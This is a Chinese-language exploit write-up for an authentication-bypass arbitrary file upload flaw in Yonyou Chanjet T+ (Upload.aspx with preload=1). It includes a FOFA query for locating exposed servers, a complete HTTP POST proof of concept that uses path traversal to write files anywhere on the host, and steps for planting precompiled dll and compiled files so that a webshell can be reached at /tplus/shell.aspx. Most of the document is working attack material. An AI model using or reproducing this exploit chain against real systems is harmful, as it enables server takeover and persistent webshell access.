 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![1](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131041324.png)

存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![2](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131041333.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![3](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131041137.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![6](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131042534.png)

![4](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131042543.png)

![5](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131042554.png)

再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```